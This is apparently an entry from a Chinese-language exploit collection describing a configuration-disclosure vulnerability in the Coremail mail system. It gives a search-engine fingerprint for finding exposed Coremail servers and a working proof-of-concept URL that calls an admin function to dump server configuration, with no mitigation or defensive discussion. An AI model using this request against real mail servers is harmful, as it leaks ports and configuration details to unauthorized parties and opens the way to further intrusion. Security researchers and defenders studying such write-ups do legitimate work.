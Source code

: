 # 

# Coremail 配置信息泄露漏洞

## 漏洞描述

Coremail 某个接口存在配置信息泄露漏洞，其中存在端口，配置信息等

## 漏洞影响

```
Coremail 配置信息泄露漏洞
```

## 网络测绘

```
app="Coremail邮件系统"
```

## 漏洞复现

POC为

```plain
http://xxx.xxx.xxx.xxx/mailsms/s?func=ADMIN:appState&dumpConfig=/
```

![](./images/202202101913188.png)



